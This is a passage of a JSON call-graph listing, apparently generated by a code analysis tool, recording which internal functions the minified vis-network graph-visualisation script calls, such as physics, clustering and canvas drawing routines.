"relation": "calls", "source": "static/js/vis-network.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "parseOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "updateEdgeType"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "updateLabelModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getIds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "disconnect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "disconnect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "connect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "connect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_addMissingEdges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_removeInvalidEdges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_formBarnesHutTree"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getForceContributions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getForceContribution"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getForceContribution"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getForceContribution"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getForceContribution"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_calculateForces"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getForceContributions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_calculateForces"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_splitBranch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_placeInTree"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_updateBranchMass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_placeInRegion"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_updateBranchMass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_rng"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_rng"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_splitBranch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_placeInTree"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_placeInTree"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_insertRegion"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_insertRegion"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_insertRegion"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_insertRegion"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_placeInTree"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_drawBranch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_drawBranch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_drawBranch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_drawBranch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_drawBranch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_rng"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_calculateSpringForce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_calculateSpringForce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_calculateSpringForce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_calculateForces"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_rng"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "bindEventListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "initPhysics"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stopSimulation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stopSimulation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "startSimulation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "startSimulation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stopSimulation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stopSimulation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "updatePhysicsData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stopSimulation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "startSimulation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stopSimulation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "init"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stabilize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "startSimulation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_emitStabilized"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "physicsTick"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "physicsTick"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stopSimulation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "solve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "solve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "solve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "moveNodes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_evaluateStepQuality"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "physicsStep"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "revert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "physicsStep"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "physicsStep"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "adjustTimeStep"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "physicsStep"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "physicsStep"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "revert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_performStep"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "calculateComponentVelocity"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "calculateComponentVelocity"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stopSimulation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_freezeNodes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_stabilizationBatch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_startStabilizing"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "physicsTick"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_finalizeStabilization"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_restoreFrozenNodes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_emitStabilized"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "startSimulation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getHubSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_checkOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getHubSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "clusterByConnection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_checkOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "joinCondition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_cluster"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_checkOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "cloneOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "joinCondition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getConnectedId"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_cluster"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "clusterByEdgeCount"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "clusterByEdgeCount"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_checkOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "cloneOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getConnectedId"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "cloneOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "joinCondition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_cluster"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_createClusteredEdge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_backupEdgeOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "cloneOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "cloneOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getClusterPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getClusterPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_clusterEdges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "findNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_openChildCluster"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "void"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "releaseFunction"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_createClusteredEdge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_restoreEdge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_restoreEdge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getBaseEdges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "pow"}, {"confidence": 